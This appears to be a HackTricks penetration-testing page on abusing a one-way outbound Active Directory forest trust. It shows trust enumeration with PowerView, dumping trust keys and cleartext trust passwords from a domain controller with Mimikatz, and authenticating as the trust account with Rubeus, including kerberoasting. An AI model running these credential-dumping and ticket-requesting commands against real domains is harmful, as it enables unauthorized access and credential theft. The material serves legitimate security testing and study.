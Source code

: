 # External Forest Domain - One-Way (Outbound)

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

In this scenario **your domain** is **trusting** some **privileges** to principal from a **different domains**.

## Enumeration

### Outbound Trust

```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```

## Trust Account Attack

When an Active Directory domain or forest trust is set up from a domain _B_ to a domain _A_ (_**B**_ trusts A), a trust account is created in domain **A**, named **B. Kerberos trust keys**,\_derived from the **trust account’s password**, are used for **encrypting inter-realm TGTs**, when users of domain A request service tickets for services in domain B.

It's possible to obtain the password and hash of the trusted account from a Domain Controller using:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```

The risk is because of trust account B$ is enabled, **B$’s Primary Group is Domain Users of domain A**, any permission granted to Domain Users applies to B$, and it is possible to use B$’s credentials to authenticate against domain A.

{% hint style="warning" %}
Therefore, f**rom the trusting domain it's possible to obtain a user inside the trusted domain**. This user won't have a lot of permissions (just Domain Users probably) but you will be able to **enumerate the external domain**.
{% endhint %}

In this example the trusting domain is `ext.local` and the trusted one is `root.local`. Therefore, a user called `EXT$` is created inside `root.local`.

```bash
# Use mimikatz to dump trusted keys
lsadump::trust /patch
# You can see in the output the old and current credentials
# You will find clear text, AES and RC4 hashes
```

Therefore, at this point have **`root.local\EXT$`**’s current **cleartext password and Kerberos secret key.** The **`root.local\EXT$`** Kerberos AES secret keys are on identical to the AES trust keys as a different salt is used, but the **RC4 keys are the same**. Therefore, we can **use the RC4 trust key** dumped from ext.local as to **authenticate** as `root.local\EXT$` against `root.local`.

```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```

With this you can start enumerating that domain and even kerberoasting users:

```
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```

### Gathering cleartext trust password

In the previous flow it was used the trust hash instead of the **clear text password** (that was also **dumped by mimikatz**).

The cleartext password can be obtained by converting the \[ CLEAR ] output from mimikatz from hexadecimal and removing null bytes ‘\x00’:

![](<../../.gitbook/assets/image (2) (1) (2).png>)

Sometimes when creating a trust relationship, a password must be typed in by the user for the trust. In this demonstration, the key is the original trust password and therefore human readable. As the key cycles (30 days), the cleartext will not be human-readable but technically still usable.

The cleartext password can be used to perform regular authentication as the trust account, an alternative to requesting a TGT using the Kerberos secret key of the trust account. Here, querying root.local from ext.local for members of Domain Admins:

![](<../../.gitbook/assets/image (1) (1) (1) (2).png>)

## References

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
